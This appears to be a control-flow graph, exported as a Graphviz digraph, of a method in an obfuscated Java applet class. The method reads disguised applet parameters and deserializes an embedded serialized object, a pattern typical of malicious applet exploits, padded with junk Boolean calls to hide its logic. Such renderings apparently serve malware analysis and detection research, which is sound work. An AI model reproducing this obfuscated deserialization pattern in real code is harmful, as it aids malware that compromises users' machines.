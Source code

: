 digraph "" {
    "r0 := @this: sklif.Hieeyfc"
    "push 0"
    "r0 := @this: sklif.Hieeyfc"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push 1"
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "staticget <sklif.Hieeyfc: java.lang.String serializedObject>"
    "pop"->"staticget <sklif.Hieeyfc: java.lang.String serializedObject>";
    "staticinvoke <sklif.Hiydcxed: byte[] StringToBytes(java.lang.String)>"
    "staticget <sklif.Hieeyfc: java.lang.String serializedObject>"->"staticinvoke <sklif.Hiydcxed: byte[] StringToBytes(java.lang.String)>";
    "store.r r230"
    "staticinvoke <sklif.Hiydcxed: byte[] StringToBytes(java.lang.String)>"->"store.r r230";
    "store.r r230"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new java.io.ByteArrayInputStream"
    "pop"->"new java.io.ByteArrayInputStream";
    "store.r $r303"
    "new java.io.ByteArrayInputStream"->"store.r $r303";
    "load.r $r303"
    "store.r $r303"->"load.r $r303";
    "load.r r230"
    "load.r $r303"->"load.r r230";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r230"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new java.io.ObjectInputStream"
    "pop"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r $r303";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r $r303"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "pop"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "push \"daJJta\""
    "load.r r0"->"push \"daJJta\"";
    "push \"J\""
    "push \"daJJta\""->"push \"J\"";
    "push \"\""
    "push \"J\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <sklif.Hieeyfc: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <sklif.Hieeyfc: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <sklif.Hieeyfc: java.lang.String getParameter(java.lang.String)>"->"store.r $r303";
    "store.r $r303"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "push \"VVVcVVc\""
    "load.r r0"->"push \"VVVcVVc\"";
    "push \"V\""
    "push \"VVVcVVc\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <sklif.Hieeyfc: java.lang.String getParameter(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <sklif.Hieeyfc: java.lang.String getParameter(java.lang.String)>"->"store.r r0";
    "store.r r0"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "staticget <sklif.Hirwfee: sklif.Hirwfee instance>"
    "pop"->"staticget <sklif.Hirwfee: sklif.Hirwfee instance>";
    "staticget <sklif.Hirwfee: sklif.Hirwfee instance>"->"store.r r230";
    "store.r r230"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
